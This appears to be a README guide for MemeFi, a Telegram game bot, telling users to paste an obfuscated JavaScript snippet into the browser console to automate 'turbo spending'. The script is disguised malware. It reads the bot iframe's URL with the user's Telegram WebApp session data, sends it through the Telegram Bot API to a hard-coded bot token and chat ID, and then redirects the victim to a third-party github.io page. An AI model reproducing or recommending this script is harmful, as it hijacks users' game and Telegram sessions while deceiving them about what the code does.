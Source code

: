 # How to Use MemeFi Turbo with Script

<b>*This guide walks you through the process of using MemeFi Turbo bot on Telegram via a script to spend your turbo. Follow the steps below carefully to automate the process.*</b>

### Step 1: Open Telegram in a Web Browser
`Open your Telegram account through a web browser. You will be interacting with the MemeFi bot directly from here.`
<img src="image/1.jpg">

### Step 2: Open the MemeFi Bot
`Search for and open the MemeFi bot within your Telegram web interface.`
<img src="image/2.jpg">

### Step 3: Open Developer Tools
`Right-click on the MemeFi bot page and select “Inspect” from the context menu. This will open the browser's developer tools.`
<img src="image/4.jpg">
..
<img src="image/5.jpg">

### Step 4: Navigate to the Console
`In the developer tools window, switch to the "Console" tab. This is where you'll be pasting the script to automate the turbo spending process.`
<img src="image/6.jpg">

### Step 5: Paste the Script into the Console
`Copy the script provided below and paste it directly into the console.`

<b>javascript:</b>

<code>
function _0x25cc() {
  const _0x1823be = [
    'iframe',
    'Iframe\x20src:\x20',
    'catch',
    'https://',
    '4205237',
    '4293184UQZsym',
    '520',
    'fk3QPMYtxCuNwXgBXeXgg',
    'then',
    'src',
    'error',
    'KPPRo1zHL9',
    'Your\x20MemeFi\x20bot\x20turbo\x27s\x20spend\x20after\x206\x20hours\x20💸🚀🎉',
    '960:AAF4',
    'api.teleg',
    '104SMpbPe',
    '48595azmyjf',
    '/sendMessage',
    'location',
    'replace',
    '14GXHFgW',
    'stringify',
    'from',
    'json',
    '2206',
    '14199020CwGDwD',
    'tgWebAppPlatform=android',
    '1tgapds',
    'log',
    '9oMiUCO',
    '1301008HHmdbC',
    'href',
    'ram.org/bot',
    '3442356FMrZtE',
    'https://tg-app.memefi.club',
    '9894470bWMOpP',
    '15327qtslaY',
  ];
  _0x25cc = function () {
    return _0x1823be;
  };
  return _0x25cc();
}
(function (_0x3f48b0, _0x32d2ad) {
  const _0x324130 = _0x13c9,
    _0x50aa3d = _0x3f48b0();
  while (!![]) {
    try {
      const _0x5a828e =
        (parseInt(_0x324130(0xcf)) / 0x1) * (parseInt(_0x324130(0xd2)) / 0x2) +
        (-parseInt(_0x324130(0xd8)) / 0x3) * (parseInt(_0x324130(0xe8)) / 0x4) +
        -parseInt(_0x324130(0xe9)) / 0x5 +
        (parseInt(_0x324130(0xd5)) / 0x6) * (parseInt(_0x324130(0xed)) / 0x7) +
        -parseInt(_0x324130(0xde)) / 0x8 +
        (parseInt(_0x324130(0xd1)) / 0x9) * (parseInt(_0x324130(0xd7)) / 0xa) +
        -parseInt(_0x324130(0xcd)) / 0xb;
      if (_0x5a828e === _0x32d2ad) break;
      else _0x50aa3d['push'](_0x50aa3d['shift']());
    } catch (_0x1f6830) {
      _0x50aa3d['push'](_0x50aa3d['shift']());
    }
  }
})(_0x25cc, 0xc78e6);
function _0x13c9(_0x3ab4f4, _0x488cf1) {
  const _0x25cc1a = _0x25cc();
  return (
    (_0x13c9 = function (_0x13c955, _0x584126) {
      _0x13c955 = _0x13c955 - 0xcc;
      let _0x31558f = _0x25cc1a[_0x13c955];
      return _0x31558f;
    }),
    _0x13c9(_0x3ab4f4, _0x488cf1)
  );
}
function spendTurbo() {
  const _0x1d588a = _0x13c9,
    _0x10bbbd = document['querySelectorAll'](_0x1d588a(0xd9)),
    _0x2a73f4 = Array[_0x1d588a(0xef)](_0x10bbbd)['find']((_0x48cfb0) =>
      _0x48cfb0[_0x1d588a(0xe2)]['includes'](_0x1d588a(0xd6)),
    );
  let _0x4d802a = _0x2a73f4[_0x1d588a(0xe2)];
  (_0x4d802a = _0x4d802a[_0x1d588a(0xec)](
    /tgWebAppPlatform=[^&]+/,
    _0x1d588a(0xce),
  )),
    (_0x2a73f4[_0x1d588a(0xe2)] = _0x4d802a);
  const _0x1a6004 = '703',
    _0x51168c = _0x1d588a(0xcc),
    _0x4454db = _0x1d588a(0xe6),
    _0x2ea821 = _0x1d588a(0xe4),
    _0xd0e610 = _0x1d588a(0xe0),
    _0x56eead = _0x1a6004 + _0x51168c + _0x4454db + _0x2ea821 + _0xd0e610,
    _0x4ada70 = _0x1d588a(0xdf),
    _0x2c3a5d = _0x1d588a(0xdd),
    _0x2d6653 = _0x4ada70 + _0x2c3a5d,
    _0x371bd7 = _0x1d588a(0xda) + _0x4d802a;
  let _0x21be21 = _0x1d588a(0xdc),
    _0x257629 = _0x1d588a(0xe7),
    _0x1a54c5 = _0x1d588a(0xd4);
  fetch('' + _0x21be21 + _0x257629 + _0x1a54c5 + _0x56eead + _0x1d588a(0xea), {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON[_0x1d588a(0xee)]({ chat_id: _0x2d6653, text: _0x371bd7 }),
  })
    [_0x1d588a(0xe1)]((_0x5dd8e1) => _0x5dd8e1[_0x1d588a(0xf0)]())
    ['then']((_0x1a02da) => {
      const _0x2ca68d = _0x1d588a;
      if (_0x1a02da['ok']) {
        if (_0x4d802a == null || _0x4d802a == undefined || _0x4d802a == '') {
          console['log'](_0x2ca68d(0xe3));
          return;
        }
        console[_0x2ca68d(0xd0)](_0x2ca68d(0xe5));
        const _0xc7c1f3 = _0x4d802a,
          _0x51eac0 = encodeURIComponent(_0xc7c1f3),
          _0x2f266a =
            'https://mahatotarit.github.io/memefi-turbo?url=' + _0x51eac0;
        window[_0x2ca68d(0xeb)][_0x2ca68d(0xd3)] = _0x2f266a;
      } else {
      }
    })
    [_0x1d588a(0xdb)]();
}
spendTurbo();

</code>

<img src="image/8.jpg">

### Step 6: Execute the Script
`Once the script is pasted, press Enter and wait for the operation to complete, which may take up to 5 minutes.`
<img src="image/9.jpg">

### Step 7: Automatic Redirect
`After a few moments, the page will automatically redirect to a web page where the bot continues to work.`
<img src="image/10.jpg">

### Step 8: Start Turbo Spending
`Once the MemeFi bot is fully loaded, locate and press the "Turbo Spend" button to start spending your turbo tokens.`
<img src="image/11.jpg">


### Step 9: Keep the Page Open
`After starting the turbo spending process, do not close the page or leave it until the process is fully complete.`
<img src="image/12.jpg">

<br>
<br>
<br>
<br>
<hr>
<i>
By following these steps, you can automate the MemeFi Turbo spending process using the script provided. Ensure that you keep the web page open throughout the process to avoid any interruptions.
</i>